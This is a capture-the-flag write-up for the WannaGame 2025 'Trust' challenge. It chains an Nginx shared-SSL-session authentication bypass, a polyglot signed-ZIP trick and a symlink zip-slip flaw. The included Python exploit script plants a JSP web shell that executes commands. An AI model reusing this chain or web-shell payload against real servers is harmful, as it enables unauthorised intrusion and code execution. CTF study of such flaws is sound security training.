


# WannaGame Championship 2025 - Trust Write-up



### Step 1: Reconnaissance & Vulnerability Analysis

The challenge provided the source code for a Dockerized environment. After analyzing the application architecture, I identified a chain of three vulnerabilities that ultimately allowed me to achieve Remote Code Execution (RCE).

#### Vulnerability 1: SSL Session Reuse (Nginx)

I started by examining the Nginx configuration. I noticed that the server was configured to use a shared SSL session cache across all virtual hosts.

**File:** `nginx/nginx.conf`
```nginx
http {
    # ...
    # CVE-2025-23419 vulnerable configuration
    # Session cache shared across virtual hosts
    ssl_session_cache shared:SSL:10m; 
    ssl_session_tickets on;
    # ...
}
```

**Exploitation Logic:**
1.  The **Public Portal** (`public.trustboundary.local`) accepts any client certificate, even untrusted ones.
2.  The **Employee Portal** (`employee.trustboundary.local`) requires strict trusted certificate verification.
3.  I realized I could connect to the Public Portal to establish a valid SSL Session ID. Then, by reusing that Session ID when connecting to the Employee Portal, Nginx trusts the cached session and skips the strict certificate verification.

#### Vulnerability 2: Signature Bypass (Polyglot File)

Once inside the Employee Portal, I found a plugin upload feature. The backend code in `PluginUtils.java` validates uploaded plugins by checking a digital signature. However, the validation logic differed from the actual ZIP extraction logic.

**File:** `PluginUtils.java`
```java
// The validator reads from the beginning of the file to check the CMS signature
CMSProcessableByteArray processableContent = new CMSProcessableByteArray(zipContent);
CMSSignedData signedData = new CMSSignedData(processableContent, ...);
```

In contrast, Java's `ZipFile` reads the archive structure starting from the **Central Directory at the end of the file**. This discrepancy allowed me to create a Polyglot file: I could take a valid, signed plugin (which satisfies the validator) and append a malicious ZIP archive to the end of it (which is what the extractor actually processes).

#### Vulnerability 3: Zip Slip via Symlinks

The most critical flaw was in the plugin extraction logic. While there was a check for Path Traversal, it handled symbolic links incorrectly due to a **Time-of-Check Time-of-Use (TOCTOU)** logic error.

**File:** `PluginUtils.java`
```java
if (isUnixSymlink(entry)) {
    // ...
    String linkTarget = new String(linkBytes);
    Path resolved = file.toPath().getParent().resolve(linkTarget).normalize();
    
    // VULNERABILITY: The security check runs ONLY if the file already exists!
    if (Files.exists(resolved, new LinkOption[0]) && ... && !resolved.startsWith(targetDir.toPath())) {
        throw new IOException("Invalid symlink target");
    }

    // If the file is missing, it allows creating a link pointing anywhere (e.g., webroot)
    Files.createSymbolicLink(file.toPath(), Paths.get(linkTarget));
}
```

I exploited this by creating an archive with two entries:
1.  A symlink named `pwn_final` pointing to the Tomcat webroot: `/usr/local/tomcat/webapps/ROOT/final_recovery.jsp`.
2.  A regular file, also named `pwn_final`, containing my JSP payload.

When extracted, the system first creates the symbolic link. Then, when it processes the second entry, it writes the payload content *through* that link, depositing my JSP shell directly into the webroot.

### Step 2: The Exploit

I wrote a Python script to automate the entire attack chain:
1.  It downloads the "untrusted" client certificates.
2.  It performs the **SSL Session Reuse** attack to bypass authentication.
3.  It constructs a **Polyglot ZIP** containing a payload that leverages the **Symlink technique**.
4.  It uploads the plugin and retrieves the output of the `/readflag` command.

**Final Exploit Code (`solve.py`):**

```python
import socket
import ssl
import json
import requests
import zipfile
import io
import time
import sys

TARGET_HOST = "challenge.cnsc.com.vn"
TARGET_PORT = 30804
PUBLIC_SNI = "public.trustboundary.local"
EMPLOYEE_SNI = "employee.trustboundary.local"

# Targeting the path we know works
TARGET_PATH = "/usr/local/tomcat/webapps/ROOT/final_recovery.jsp"
SHELL_URI = "final_recovery.jsp"

# Disable warnings
requests.packages.urllib3.disable_warnings()

def get_target_ip():
    return socket.gethostbyname(TARGET_HOST)

TARGET_IP = get_target_ip()

def download_client_certs():
    print(f"[*] Downloading client certificates from https://{TARGET_HOST}:{TARGET_PORT}...")
    try:
        url = f"https://{TARGET_HOST}:{TARGET_PORT}/download"
        headers = {"Host": PUBLIC_SNI}
        
        r_crt = requests.get(f"{url}/client.crt", headers=headers, verify=False)
        r_key = requests.get(f"{url}/client.key", headers=headers, verify=False)
        
        if r_crt.status_code != 200:
            print("[-] Failed to retrieve certificates.")
            sys.exit(1)

        with open("client.crt", "wb") as f:
            f.write(r_crt.content)
        with open("client.key", "wb") as f:
            f.write(r_key.content)
            
        return "client.crt", "client.key"
    except Exception as e:
        print(f"[-] Error downloading certs: {e}")
        sys.exit(1)

def create_ssl_context(cert_file, key_file):
    context = ssl.SSLContext(ssl.PROTOCOL_TLS_CLIENT)
    context.check_hostname = False
    context.verify_mode = ssl.CERT_NONE
    context.load_cert_chain(certfile=cert_file, keyfile=key_file)
    return context

def get_authenticated_connection(context):
    # 1. Start Session at Public
    s1 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    conn1 = context.wrap_socket(s1, server_hostname=PUBLIC_SNI)
    conn1.connect((TARGET_IP, TARGET_PORT))
    conn1.sendall(f"GET / HTTP/1.1\r\nHost: {PUBLIC_SNI}\r\nConnection: close\r\n\r\n".encode())
    conn1.read(1024) 
    session = conn1.session
    conn1.close()
    
    # 2. Reuse Session at Employee
    s2 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    conn2 = context.wrap_socket(s2, server_hostname=EMPLOYEE_SNI, session=session)
    conn2.connect((TARGET_IP, TARGET_PORT))
    return conn2

def send_raw_request(conn, method, path, headers=None, body=None):
    if headers is None: headers = {}
    req = f"{method} {path} HTTP/1.1\r\nHost: {EMPLOYEE_SNI}\r\n"
    for k, v in headers.items():
        req += f"{k}: {v}\r\n"
    if body:
        req += f"Content-Length: {len(body)}\r\n"
    req += "Connection: keep-alive\r\n\r\n"
    
    conn.sendall(req.encode())
    if body:
        conn.sendall(body)
    
    response = b""
    while True:
        try:
            conn.settimeout(5.0)
            chunk = conn.read(4096)
            if not chunk: break
            response += chunk
            if b"0\r\n\r\n" in chunk: break
        except socket.timeout:
            break
            
    parts = response.split(b"\r\n\r\n", 1)
    head = parts[0].decode(errors='ignore')
    body_data = parts[1] if len(parts) > 1 else b""
    return head, body_data

def construct_payload(base_plugin_data):
    print("[*] Constructing FINAL payload...")
    
    malicious_io = io.BytesIO()
    with zipfile.ZipFile(malicious_io, 'w', zipfile.ZIP_DEFLATED) as zf:
        
        # Corrected JSP Payload using /readflag (no underscore)
        jsp_payload = """
        <%@ page import="java.io.*" %>
        <pre>
        --START-FLAG--
        <%
            try {
                // Correct path based on previous diagnostic
                Process p = Runtime.getRuntime().exec("/readflag");
                
                BufferedReader stdOut = new BufferedReader(new InputStreamReader(p.getInputStream()));
                BufferedReader stdErr = new BufferedReader(new InputStreamReader(p.getErrorStream()));
                String line;
                
                while((line = stdOut.readLine()) != null) out.println(line);
                while((line = stdErr.readLine()) != null) out.println("ERR: " + line);
                
            } catch(Exception e) {
                out.println("JAVA EXCEPTION: " + e.toString());
            }
        %>
        --END-FLAG--
        </pre>
        """

        # Symlink creation
        attr = 0o120755 << 16
        zi_link = zipfile.ZipInfo("pwn_final")
        zi_link.create_system = 3
        zi_link.external_attr = attr
        zf.writestr(zi_link, TARGET_PATH)
        
        # Write payload to symlink
        zf.writestr("pwn_final", jsp_payload)

    return base_plugin_data + malicious_io.getvalue()

def main():
    cert, key = download_client_certs()
    ctx = create_ssl_context(cert, key)
    
    # Get base plugin
    conn = get_authenticated_connection(ctx)
    head, body = send_raw_request(conn, "GET", "/api/plugins")
    conn.close()
    
    try:
        data = json.loads(body.decode())
        valid_plugin_name = data['plugins'][0]['name']
    except:
        valid_plugin_name = "hello-world.plugin" 

    print(f"[+] Using base plugin: {valid_plugin_name}")
    conn = get_authenticated_connection(ctx)
    head, base_plugin_data = send_raw_request(conn, "GET", f"/plugins/{valid_plugin_name}")
    conn.close()

    # Upload Exploit
    evil_plugin_data = construct_payload(base_plugin_data)
    boundary = "----WebKitFormBoundaryFINAL"
    payload = (
        f"--{boundary}\r\n"
        f"Content-Disposition: form-data; name=\"plugin\"; filename=\"final.plugin\"\r\n"
        "Content-Type: application/octet-stream\r\n\r\n"
    ).encode() + evil_plugin_data + f"\r\n--{boundary}--\r\n".encode()
    
    print("[*] Uploading final plugin...")
    conn = get_authenticated_connection(ctx)
    headers = {"Content-Type": f"multipart/form-data; boundary={boundary}"}
    send_raw_request(conn, "POST", "/api/plugins/upload", headers, payload)
    conn.close()
    
    # Retrieve Output
    print(f"[*] Retrieving FLAG from /{SHELL_URI} ...")
    conn = get_authenticated_connection(ctx)
    head, body = send_raw_request(conn, "GET", f"/{SHELL_URI}")
    conn.close()
    
    content = body.decode(errors='ignore')
    if "--START-FLAG--" in content:
        print("\n" + "="*50)
        start = content.find("--START-FLAG--") + len("--START-FLAG--")
        end = content.find("--END-FLAG--")
        print(content[start:end].strip())
        print("="*50)
    else:
        print("[-] Failed to find output. Raw response:")
        print(content[:500])

if __name__ == "__main__":
    main()
```

### Step 3: Result

After running the script, it successfully chained the vulnerabilities and retrieved the flag.



### Flag
Flag: `W1{C3Rt5_M3An_n0ThlNg-W1tHOUT-PROP3R_u54G3_PlS_t4K3-1t-IN-mInDb}`